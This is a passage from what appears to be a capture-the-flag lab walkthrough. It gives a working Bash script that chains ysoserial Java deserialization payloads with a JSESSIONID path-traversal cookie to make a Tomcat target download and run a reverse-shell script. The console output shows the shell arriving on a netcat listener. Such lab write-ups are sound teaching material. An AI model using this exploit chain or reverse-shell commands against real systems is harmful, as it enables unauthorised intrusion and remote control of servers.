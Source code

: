 ```

#!/bin/bash

ip=$(ip addr | grep "inet 10.10" | awk '{print $2}' | cut -d'/' -f1)
echo -e "#!/bin/bash\n\nbash -i >& /dev/tcp/${ip}/443 0>&1" > payload.sh

java -jar /opt/ysoserial/ysoserial-master.jar CommonsCollections2 "curl ${ip}/payload.sh -o /tmp/.0xdf" > payload.session
curl -s 'http://10.10.10.205:8080/upload.jsp?email=abcd' -F 'image=@./payload.session' -x http://127.0.0.1:8080 > /dev/null
curl -s http://10.10.10.205:8080/service/ -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/payload" > /dev/null

java -jar /opt/ysoserial/ysoserial-master.jar CommonsCollections2 'chmod +x /tmp/.0xdf' > payload.session                
curl -s 'http://10.10.10.205:8080/upload.jsp?email=abcd' -F 'image=@./payload.session' -x http://127.0.0.1:8080 > /dev/null
curl -s http://10.10.10.205:8080/service/ -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/payload" > /dev/null

java -jar /opt/ysoserial/ysoserial-master.jar CommonsCollections2 '/tmp/.0xdf' > payload.session                         
curl -s 'http://10.10.10.205:8080/upload.jsp?email=abcd' -F 'image=@./payload.session' -x http://127.0.0.1:8080 > /dev/null
curl -s http://10.10.10.205:8080/service/ -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/payload" > /dev/null   

```

I’ll start `python3 -m http.server 80` in the directory with `shell.sh`, and a `nc` listener on port 443, then run the above Bash script. First I see the hit on my webserver:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.205 - - [31/Aug/2020 16:45:16] "GET /payload.sh HTTP/1.1" 200 -  

```

Then there’s a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.205.
Ncat: Connection from 10.10.10.205:42124.
bash: cannot set terminal process group (944): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@VirusBucket:/opt/tomcat$

```
